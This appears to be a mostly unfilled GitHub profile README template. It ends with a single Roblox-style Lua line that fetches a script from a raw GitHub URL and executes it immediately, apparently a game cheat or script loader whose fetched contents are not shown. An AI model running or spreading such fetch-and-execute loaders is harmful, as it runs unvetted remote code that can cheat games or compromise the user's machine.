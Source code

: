 - 👋 Hi, I’m @Djejshsbsb
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Djejshsbsb/Djejshsbsb is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
loadstring(game:HttpGet(“https://raw.githubusercontent.com/IsaaaKK/cwhb/main/cw.txt”
))()
